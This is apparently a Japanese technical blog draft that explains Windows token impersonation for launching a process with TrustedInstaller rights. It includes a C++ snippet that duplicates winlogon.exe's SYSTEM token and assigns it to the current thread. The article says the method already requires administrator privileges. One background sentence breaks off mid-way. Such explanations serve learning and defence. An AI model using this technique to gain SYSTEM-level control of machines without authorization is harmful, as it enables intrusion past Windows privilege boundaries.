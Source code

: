 ```yaml
---
title: "トークン偽装攻撃をコード付きで解説(Windows)"
emoji: "🦔"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["セキュリティ", "windows", "cpp"]
published: false
---
```


Windowsの最高権限であるTrustedInstaller権限でプロセスを起動する方法とコードを備忘録として残します。
また、以下に残す方法は一般ユーザーが保持していない"SeImpersonatePrivilege"と"SeDebugPrivilege"権限が必要です。
一般ユーザーがいきなりTrustedInstallerに昇格するようなものではありません。
あくまで、Administratorが実行する前提になります。

## 前提知識の解説

### Windowsの権限管理の仕組み

Windowsのプロセスの権限管理にアクセストークンという仕組みを使用しています。
各プロセスは権限情報を表すトークンが紐づけられ

## 昇格までの流れ

1. SYSTEM権限で起動しているプロセスからアクセストークンを複製
1. 現在のプロセスに複製したアクセストークンを付与
1. SYSTEM権限でTrustedInstaller.exeを起動する。
1. 起動したTrustedInstaller.exeのアクセストークンを複製
1. 複製したアクセストークンを付与した新しいプロセスを起動する。
1. プロセスがTrustedInstaller権限で起動する。

## SYSTEM権限で起動しているプロセスからアクセストークンを複製

Windowsのログオン機能をつかさどるwinlogon.exeはSYSTEM権限で起動されています。
そのため、winlogon.exeにはSYSTEM権限のアクセストークンが紐づけられています。
以下関数を利用してwinlogon.exeのアクセストークンを偽装トークン(TokenImpersonation)としてコピーします。
そのあと複製した偽装トークンを現在のプロセスに割り当てます。

```cpp
 // winlogon.exeのプロセスのハンドルを取得。(pidはwinlogon.exeのプロセスID)
 HANDLE hProcessWinlogon = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
 // winlogon.exeのプロセスハンドルからアクセストークンのハンドルを取得
 HANDLE hTokenWinlogon;
 OpenProcessToken(hProcessWinlogon, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTokenWinlogon); 
 //DuplicateProcessToken関数を使用してして偽装トークンとして複製し、ハンドルを取得。
 HANDLE hImpersonationToken;
 DuplicateTokenEx(hTokenWinlogon, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenImpersonation, &hImpersonationToken)
 // 現在のプロセスのハンドルを取得
 HANDLE hCurrentThread = GetCurrentThread();
 // 複製したアクセストークンを現在のスレッドに割り当てる。
 SetThreadToken(&hCurrentThread, hImpersonationToken);
```

## 参考記事

<https://book.hacktricks.xyz/v/jp/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>
<https://blog.nflabs.jp/entry/2021/12/20/094644>
